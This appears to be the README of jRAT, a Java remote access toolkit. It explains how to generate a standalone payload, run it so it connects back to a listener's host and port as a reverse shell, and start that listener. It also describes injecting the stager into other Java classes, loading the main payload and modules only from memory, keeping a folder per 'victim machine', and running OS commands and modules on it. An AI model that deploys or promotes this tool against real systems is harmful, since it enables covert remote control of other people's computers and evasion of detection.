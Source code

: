 # jRAT
Remote administration toolkit that runs from memory written in Java

- **Portable**
  - Runs on Windows, Linux, MacOS

- **Modular design**
  - Additional functionality can be added at runtime by loading additional modules, and the functionality of jRAT can be extended by developing new modules.

- **Runs from memory**
  - Only the initial stager is run from disk, the main payload (Stage) and any additional modules that are loaded are loaded and run using a class loader from memory. In case an additional module depends on shared libraries they are saved to a temporary file, loaded, and removed after loading.


This remote administration toolkit consists of a simple stager that can be injected into other Java clases, or used as a standalone payload.
By running the jRAT.jar without any parameters `java -jar jRAT.jar`, a standalone payload is created containing the main method that can be used for demonstration purposes, by providing it the server/listener address and port to connect to.


**Generating a standalone payload**

`java -jar jRAT.jar`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image1.png)

**Running a standalone payload**

`java -jar standaloner.jar <host> <port>`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image2.png)

**Starting a listener**

`java -jar jRAT.jar <port>`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image3.png)

After the client connects to the listener a shell will be presented, and a directory created for the victim machine in the current directory.
Directory name will be named based on the IP address of the victim machine.
By default jRAT works as a reverse shell and can be used to execute commands on the victim machine.
Additional functionality is provided by using the commands described below, which can be seen by using the `help` command:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image4.png)

The `modules` command can be used to view all the modules that can be loaded:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image5.png)

`load` command can be used to load a module, and after the module is loaded `show` command can be used to view all the available commands/methods in the module:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image6.png)

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image8.png)

`deps` command can be used to view all the dependencies (additional classes/JAR's) that were loaded during module loading:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image7.png)

OS commands can simply be run just as in a standard reverse shell:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image9.png)

To run the command in a module use `run` command, followed by module name, command name, and any necessary parameters.
For example, shown below is an example of running the `exec` command in the `core` module:

`run core exec "nmap -p10000 127.0.0.1"`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image10.png)
